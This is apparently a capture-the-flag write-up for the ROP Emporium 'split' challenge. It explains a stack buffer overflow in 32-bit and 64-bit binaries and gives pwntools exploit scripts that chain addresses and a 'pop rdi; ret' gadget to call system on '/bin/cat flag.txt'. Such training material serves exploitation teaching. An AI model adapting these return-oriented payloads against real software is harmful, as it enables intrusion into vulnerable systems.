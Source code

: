 # split x86 [Pwn]

- x86

Link : [split x86](https://ropemporium.com/challenge/split.html)

Binary : [split x86](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/split32.zip)


## Vulnerability Analysis and Exploitation

In the `pwnme` function, the program accepts an input string of up to `96 bytes`, while the size of the buffer `s` is limited to `40 bytes`. This allows for a buffer overflow, enabling us to overwrite critical registers and redirect the program's execution flow to another piece of code or program.

![pwnme](data/pwnme.png)

Imported Functions

Here is the list of imported functions:

![Imported](data/Imported.png)

We notice the presence of the `system` function, which is very useful for executing system commands.

Additionally, the binary contains the following interesting string:
`/bin/cat flag.txt`

![Strings](data/Strings.png)

Our goal is to exploit the vulnerability to call the `system` function with `/bin/cat flag.txt` as the argument, which will allow us to display the contents of the `flag.txt` file.

## Exploitation Plan

To call `system` with an argument in a 32-bit binary, we need to:

1. Push the address of the `system` function onto the stack.
2. Provide the necessary arguments (in this case, the address of the string `/bin/cat flag.txt`).

The stack layout should look like this:

```
Address of system  
(4 bytes)  
Address of "/bin/cat flag.txt"  
```

#### Key Information

- Address of system: 0x80483e0
- Address of the string /bin/cat flag.txt: 0x0804A030

![system](data/system.png)

![system](data/bincat.png)

## Calculating the Offset

Before redirecting the execution flow, we need to determine the exact offset required to reach the EIP register from the start of the buffer. We use `gdb` for this purpose.

Here’s an example output:

![gdb0](data/gdb0.png)

![gdb0](data/eip.png)

Now we know that the offset to reach EIP is 44 bytes (replace with the actual value).

Exploit

Using the calculated offset, we can construct our payload:

1. Fill the buffer up to the offset.
2. Add the address of the system function.
3. Add a dummy value (useful only for certain contexts where a return value is required).
4. Add the address of the string /bin/cat flag.txt.

Here’s an example payload:

```py

from pwn import *

sh = process("./split32")
print(sh.recv().decode())

payload = b"A" * 44        # Tthe offset  
payload += p32(0x80483e0)  # Address of system  
payload += b"JUNK"         # Dummy value  
payload += p32(0x0804A030) # Address of "/bin/cat flag.txt"  

sh.sendline(payload)
sh.interactive()
```

- x86_64

Binary : [split x86_64](https://github.com/w31rdr4v3n/Binary-Exploitation/raw/main/ROP/data/ropemporium/split.zip)


For x86_64 architecture, the function calling convention is different. Instead of pushing arguments onto the stack, we load the argument's address into the RDI register using a gadget like `pop rdi; ret`, and then call the function.

#### Key Details

- Offset to RIP: 40 bytes
- Address of `system@plt`: `0x400560`
- Address of `/bin/cat flag.txt`: `0x00601060`
- Gadget for `pop rdi; ret`: Locate this gadget in the binary (e.g., using `ROPgadget` or `ROPg` tools).

#### Exploitation Plan

- Overwrite the buffer to control the `RIP`.
- Use the `pop rdi; ret` gadget to load the address of `/bin/cat flag.txt` into `RDI`.
- Redirect execution to `system@plt` by overwriting `RIP`.

Exploit Payload

```py
from pwn import *

sh = process("./split")
print(sh.recv().decode())

payload  = b"A"*(40) 
payload += p64(0x004007c3) # pop rdi ; ret
payload += p64(0x00601060) # "/bin/cat flag.txt"
payload += p64(0x00400560) # system@plt

sh.sendline(payload)
sh.interactive()
```
